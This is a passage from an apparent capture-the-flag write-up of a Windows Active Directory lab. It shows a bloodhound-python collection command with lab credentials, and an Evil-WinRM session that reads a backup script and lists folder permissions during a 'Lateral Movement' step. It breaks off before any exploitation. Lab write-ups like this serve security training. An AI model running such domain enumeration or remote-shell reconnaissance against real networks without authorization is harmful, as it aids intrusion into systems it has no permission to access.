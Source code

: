 {% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.15.150 -dc K2RootDC.k2.thm -d k2.thm --zip -u 'j.smith' -p 'vz0q$i8b4c'
```
{% endcode %}

Nothing interesintg so far



## Lateral Movement

Do a Windows Local Enumeration of the target and see this juicy directory

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Inside it there is a .bat file with this content:

{% code overflow="wrap" %}
```powershell
*Evil-WinRM* PS C:\Scripts> more backup.bat

copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt
```
{% endcode %}

The rights of the directory and file is these:

```powershell
*Evil-WinRM* PS C:\> icacls Scripts
Scripts K2\j.smith:(F)
        K2\o.armstrong:(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        BUILTIN\Users:(I)(OI)(CI)(RX)
        BUILTIN\Users:(I)(CI)(AD)
        BUILTIN\Users:(I)(CI)(WD)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)

*Evil-WinRM* PS C:\Scripts> icacls backup.bat
backup.bat NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           K2\o.armstrong:(I)(F)
```
